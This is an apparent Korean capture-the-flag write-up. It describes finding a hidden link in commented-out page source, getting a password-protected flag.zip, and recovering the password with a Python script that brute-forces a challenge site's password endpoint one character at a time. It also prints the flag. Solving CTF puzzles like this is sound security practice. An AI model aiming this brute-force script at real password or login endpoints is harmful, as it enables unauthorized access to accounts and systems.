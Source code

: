 ﻿<img src="./open.png">
: 해당 링크로 들어가보니 이와 같은 페이지가 나왔다. 
<img src="./box.png">
: 페이지의 소스에서 주석으로 처리되는 부분을 지워보니 이와 같은 상자 그림이 나왔고, 클릭해보니 다음과 같은 zip파일이 받아졌다.  

```
flag.zip
``` 
: 이 zip 파일 안에는 flag.txt 파일이 압축되어있었고, 이를 풀려면 패스워드가 필요했다. 

<img src="./password.png">
: 다음 페이지는 패스워드를 물어보는 페이지였다. 즉, 이곳에서 알맞은 패스워드를 알아내야한다는 것을 알 수 있었다.

> 즉, `패스워드를 알아내서 압축을 풀고 flag를 알아내는 것`이 이번 문제였다. 

------------------------------
#### 브루트 포스 (Brute Force)
brute : 짐승, 동물  
force : 힘  
=> `가능한 모든 경우`에 대해 모두 `직접` 해 보는 방법

* 만들기가 쉽다.
* 시간면에서 매우 비효율적이다.
------------------------------

파이썬 코드는 다음과 같다.
```
import urllib,requests,time

password=""

for j in range(0,30):
	for i in range(39,127):
		try:
			payload={"no":j,"word":chr(i)}
			headers={"Content-Type":"application/x-www-form-urlencoded"}
			r=requests.post("http://yeali.me/open/password.php",data=payload,headers=headers)
		except:
			print("exception")
			continue
		if "Good" in r.text :
			password=password+chr(i)
			print ("[*] password : "+password)
			break
		time.sleep(0.1)
print ("[*] password :" +password)
```

나온 패스워드로 압축을 풀고 txt 파일을 본 결과, flag는 다음과 같았다.  
```
!_am_fl4G_LOoOoOoOoOoOL
```

> flag : !_am_fl4G_LOoOoOoOoOoOL